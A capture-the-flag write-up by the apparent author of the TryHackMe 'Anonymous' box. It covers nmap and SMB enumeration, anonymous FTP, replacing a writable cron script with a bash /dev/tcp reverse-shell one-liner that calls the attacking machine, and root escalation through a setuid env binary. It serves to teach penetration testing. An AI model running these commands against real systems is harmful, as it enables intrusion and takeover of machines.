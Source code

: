 # Introduction
This writeup is for my box of Anonymous, submitted on TryHackMe.com.  It is an Easy-ish style box that requires the attacker to gain two flags from the victim's machine.  It requires some basic knowledge of Linux and general privilege escalation methods.  So with that out of the way, let's get started.

# Enumeration
## Port Enumeration
We start by performing the basic enumeration on the box with our trusty tool, nmap.  I like to use the below scan options but you are free to do whatever you'd like.

```bash
nmap -sC -sV -oA nmap/scans {IP_ADDRESS}
```
I'm testing this locally so my IP address is 192.168.196.130.  We run the scan and find **4** ports open.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-13 12:39 EDT
Nmap scan report for 192.168.196.130
Host is up (0.00059s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 111      113          4096 May 13 15:45 scripts
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.196.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2020-05-13T16:39:58+00:00
| smb-security-mode:                                                                                              
|   account_used: guest                                                                                           
|   authentication_level: user                                                                                    
|   challenge_response: supported                                                                                 
|_  message_signing: disabled (dangerous, but default)                                                            
| smb2-security-mode:                                                                                             
|   2.02:                                                                                                         
|_    Message signing enabled but not required                                                                    
| smb2-time:                                                                                                      
|   date: 2020-05-13T16:39:58                                                                                     
|_  start_date: N/A                                                                                               

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.25 seconds
```
Perfect!  Let's dive into what we see open.

### **FTP (Port 21)**
Looking at the output, we see some interesting things right away: `ftp-anon: Anonymous FTP login allowed (FTP code 230)`.  We'll come back to this in a bit but tuck that away for now.

### **SSH (Port 22)**
We also see that SSH is open but since I wrote this box, I know it's a dead-end.  No user passwords are brute-forceable here.

### **SMB (Ports 139, 445)**
SMB is also open and it's worth digging into.  So let's try enumerating it a little.  We can do this by entering `smbclient -L 192.168.196.130`.  Doing that, we get the following:

```
namelessone@namelessone:~$ smbclient -L 192.168.196.130
Enter WORKGROUP\namelessone's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```
Anonymous login is enabled here so no password necessary.  We also get a glimpse of a user on the system, namelessone (somebody likes to be cryptic!).  We also see 3 shares listed: print$, pics and IPC$.  I don't particularly care about print$ or IPC$, but pics seems interesting.  Let's try to access it.

We can use smbclient to login to the share with the following command: `smbclient \\\\192.168.196.130\\pics`

```
namelessone@namelessone:~$ smbclient \\\\192.168.196.130\\pics
Enter WORKGROUP\namelessone's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> 
```
Doing so, gets us logged into the share.  From here the user will find 4 jpg files that they are free to download and analyze but there's nothing special here to find.  Attempting to `cd` to a different directory will go nowhere.

# Initial Exploitation (User)
Going back to the other open ports, we see that FTP allows anonymous login.  This is interesting and generally leads to good things.  Let's start with that.

To login to the ftp server we can use the following command: `ftp 192.168.196.130`.  When it prompts for the username, we enter `anonymous` and press <kbd>Enter/Return</kbd>.  It will then prompt for a password.  We can just press <kbd>Enter/Return</kbd> again to be logged in.  The prompt should now look like this:

```
ftp>
```
Performing the normal enumeration of `ls` or `dir`, we see that there's a folder called **scripts**.  Let's go into this with `cd scripts`.  After changing directories, and performing another `ls`, we see that there are 2 or 3 files depending on the time.  We see

```
-rwxr-xrwx    1 0        0             324 May 12 20:33 clean.sh
-rw-r--r--    1 0        0              68 May 12 03:50 to_do.txt
```
And depending on the time, there may be one more file called `removed_files.log`.  If the user downloads this file and `cat`s it, they'll see that it's outputting information every 5 minutes.  At this point, hopefully it is obvious that there is a cronjob running for this user.  The user can also download the `to_do.txt` file and get a hint that the owner of the box needs to disable anonymous login.

From here, we need to somehow get a reverse shell.  The user may try to `put` a test file to see if they can upload.  It should succeed.  Then they may try to overwrite `clean.sh`.  That also works.  So from here we need to generate a payload that will call a reverse shell back to the attacking machine.

The shell that will create a proper TTY shell is the first option using `bash -i >& /dev/tcp/192.168.196.128/1337 0>&1`.  Others may work, but this worked for me right away.  Check out the [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) from Pentest Monkey for help.

This will run and we will be greeted with our user shell prompt:
```
namelessone@anonymous:~$
```
Looking around with `ls` we get the first flag with `user.txt`.  Good job!

# Privilege Escalation (root)
So now the objective is to gain root access.  As our user `namelessone` we can wget our favorite Linux Enumeration script.  I'll be using [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration).  Luckily the author provides an easy `wget` one-liner that will work here.  From the output, we notice the following:

```
[!] fst020 Uncommon setuid binaries........................................ yes!
---
/usr/bin/env
/usr/bin/vim.basic
---
```

Searching [GTFOBins](http://gtfobins.github.io) for `env` gives us the following command to get a shell:
```bash
env /bin/sh
```
This by itself won't work and we need to add a `-p` at the end to give us
```bash
env /bin/sh -p
```
Once we send that command, we are greeted with:
```
env /bin/sh -p
id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
whoami
root
```
Grabbing the `root.txt` file is as easy as `cd /root` and `cat root.txt`.  Box complete!